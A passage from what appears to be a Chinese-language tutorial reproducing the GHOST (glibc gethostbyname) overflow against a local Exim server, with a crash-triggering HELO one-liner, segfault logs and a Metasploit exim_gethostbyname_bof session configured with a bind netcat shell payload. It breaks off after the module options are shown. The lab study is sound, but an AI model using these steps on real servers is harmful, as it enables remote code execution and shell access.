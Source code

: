 函数 `host_find_byname` 调用了 `gethostbyname()` 和 `gethostbyname2()` 分别针对 IPv4 和 IPv6 进行处理，也就是在这里可以触发漏洞函数。

这一次我们输入这样的一串字符，即可导致溢出：
```
$ python -c "print 'HELO ' + '0'*$((0x500-16*1-2*8-1-8))"
```
但是程序可能还是正常在运行的，我们多输入执行几次就会触发漏洞，发生段错误，连接被断开。
```
Connection closed by foreign host.
```
```
$ dmesg | grep exim
[28929.172015] traps: exim4[3288] general protection ip:7fea41465c1d sp:7fff471f0dd0 error:0 in libc-2.15.so[7fea413f6000+1b5000]
[28929.493632] traps: exim4[3301] general protection ip:7fea42e2cc9c sp:7fff471f0d90 error:0 in exim4[7fea42db6000+dc000]
[28929.562113] traps: exim4[3304] general protection ip:7fea42e2cc9c sp:7fff471f0d90 error:0 in exim4[7fea42db6000+dc000]
[28929.631573] exim4[3307]: segfault at 100000008 ip 00007fea42e2d226 sp 00007fff471e8b50 error 4 in exim4[7fea42db6000+dc000]
```

其实对于 Exim 的攻击已经集成到了 Metasploit 框架中，我们来尝试一下，正好学习一下这个强大的框架，仿佛自己也可以搞渗透测试。先关掉debug模式的程序，重新以正常的样子打开：
```
$ /etc/init.d/exim4 restart
```
```
msf > search exim

Matching Modules
================

   Name                                          Disclosure Date  Rank       Description
   ----                                          ---------------  ----       -----------
   exploit/linux/smtp/exim4_dovecot_exec         2013-05-03       excellent  Exim and Dovecot Insecure Configuration Command Injection
   exploit/linux/smtp/exim_gethostbyname_bof     2015-01-27       great      Exim GHOST (glibc gethostbyname) Buffer Overflow
   exploit/unix/local/exim_perl_startup          2016-03-10       excellent  Exim "perl_startup" Privilege Escalation
   exploit/unix/smtp/exim4_string_format         2010-12-07       excellent  Exim4 string_format Function Heap Buffer Overflow
   exploit/unix/webapp/wp_phpmailer_host_header  2017-05-03       average    WordPress PHPMailer Host Header Command Injection


msf > use exploit/linux/smtp/exim_gethostbyname_bof 
msf exploit(linux/smtp/exim_gethostbyname_bof) > set RHOST 127.0.0.1
RHOST => 127.0.0.1
msf exploit(linux/smtp/exim_gethostbyname_bof) > set SENDER_HOST_ADDRESS 127.0.0.1
SENDER_HOST_ADDRESS => 127.0.0.1
msf exploit(linux/smtp/exim_gethostbyname_bof) > set payload cmd/unix/bind_netcat
payload => cmd/unix/bind_netcat
msf exploit(linux/smtp/exim_gethostbyname_bof) > show options 

Module options (exploit/linux/smtp/exim_gethostbyname_bof):

   Name                 Current Setting  Required  Description
   ----                 ---------------  --------  -----------
   RHOST                127.0.0.1        yes       The target address
   RPORT                25               yes       The target port (TCP)
   SENDER_HOST_ADDRESS  127.0.0.1        yes       The IPv4 address of the SMTP client (Metasploit), as seen by the SMTP server (Exim)


```